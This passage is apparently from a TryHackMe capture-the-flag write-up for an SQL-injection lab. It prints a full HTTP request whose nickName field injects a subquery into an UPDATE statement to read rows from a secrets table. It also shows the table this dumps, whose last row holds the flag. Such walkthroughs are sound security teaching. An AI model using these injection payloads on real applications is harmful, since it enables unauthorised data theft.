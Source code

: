 Read the records by incrementing through the `LIMIT` offsets (0-4) in the following request.

```http
POST /sesqli5/profile HTTP/1.1
Host: 10.10.109.88:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 206
Origin: http://10.10.109.88:5000
DNT: 1
Connection: close
Referer: http://10.10.109.88:5000/sesqli5/profile
Cookie: session=.eJy9z7FqAzEMBuB38ZzBOkln382l0CVb5yDbMphecqmdUkrIu9fXlNKxUzfp_0Hou5qm7XUpcEhyETNfzfPTg5lhZ_QoZTGzMTtzkqP26bHKKa6lbUmJL_t72reztHZe62Vf--5HywOzBbKevsv3taZeUfSYnY2SUSBOEimSS8NErDY7n11CFhcnIPEKHkaUqAN6gaA6Qtiu1TWXRbcfDdgeNFmkfph5YHvb_WDemtZDSV-Qe8b_AYzKUUaHCTDgCOATUwdlQNHQ3Ra6BkN2DtQB0gCBEuTkCTLjJH8F8i_g7RPqGYUc.YQqYFg.hBU1GBPvrJ7J_k0Kb6c4JLNtkGA
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

nickName=tgihf',email=(SELECT+id||':'||author||':'||secret+FROM+secrets+LIMIT+0,1
),password='d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1';--+&email=tgihf%40tryhackme.com&password=pass
```

This reveals the following table.

| id | author | secret |
| --- | --- | --- |
| 1 | 1 | Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a. |
| 2 | 3 | Donec viverra consequat quam, ut iaculis mi varius a. Phasellus. |
| 3 | 1 | Aliquam vestibulum massa justo, in vulputate velit ultrices ac. Donec c    | 
| 4 | 5 | Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla. |
| 5 | 6 | $THM_FLAG |

The final record contains the flag.
